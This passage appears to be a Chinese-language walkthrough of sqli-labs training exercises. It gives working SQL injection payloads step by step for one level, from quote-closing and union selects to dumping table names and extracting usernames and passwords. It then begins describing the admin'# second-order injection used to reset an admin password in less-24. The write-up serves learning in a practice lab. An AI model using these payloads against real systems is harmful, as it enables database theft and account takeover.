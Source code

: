 ##### 注入类型

字符型union联合注入(过滤了#，--等注释符)

##### 输入点：

输入payload：`?id=3'`回显，所以说明对id做了`'id'`处理

![image-20201113201332998](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114720.png)

##### 输出点：

由于它过滤了注释符，所以我们无法将后面的东西注释掉后面的单引号。我们可以通过再加一个单引号来闭合后面的单引号payload:`?id=-1' or 1='1`语句相当于：`SELECT * FROM users WHERE id='1' or 1=’1’`

![image-20201113201626314](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114721.png)



##### 注入方式

使用2个单引号来闭合语句中原有的单引号。再使用union来联合注入

##### 注入步骤

- 判断列数`payload:	` 4的时候页面回显报错，所以判断出列数为3列(通过select来判断)
- 联合查询，判断各列输出的位置`payload:?id=-1' union select 1,2,3 '1`
- 获取数据库`payload:?id=-1' union select 1,database(),'3`
- 爆数据表`payload:?id=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),'3`
- 爆users表的数据字段`payload：?id=-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users'),'3`
- 在爆出的字段中里面看到了password和username，于是爆数据`?id=-1' union select 1,(select group_concat(username,'~',password) from users),'3`username和password中间使用~来分隔

## less-24

##### 注入类型

通过admin'#漏洞来修改admin的密码，使自己可以登录

##### 输入点：

因为它是一个注册，登录，修改密码的界面，所以自然而然的想到了admin'#漏洞

![image-20201113204732404](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114722.png)

##### 输出点：

登录数据库，可以发现admin'#这个用户已经成功添加进去，接着就可以利用admin'#漏洞来进行修改admin的密码

![image-20201113204858378](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114723.png)

##### 注入方式

使用admin'#漏洞来修改admin管理员的密码
